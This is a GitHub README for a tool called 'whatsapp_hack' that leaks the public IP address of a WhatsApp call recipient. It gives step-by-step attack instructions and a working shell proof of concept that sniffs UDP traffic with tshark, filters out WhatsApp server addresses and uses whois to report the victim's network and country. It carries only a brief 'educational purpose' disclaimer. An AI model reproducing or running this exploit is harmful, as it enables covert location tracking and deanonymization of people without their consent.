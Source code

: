 # whatsapp_hack
Leak Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
- Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 4: Call victim on his whatsapp
- Step 5: Disconnect the call once established
- Step 6: Script will reveal the public IP address of the target
- Step 7: Validate the public IP address on target phone

## Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
## Credit

## [bhdresh](https://github.com/bhdresh)
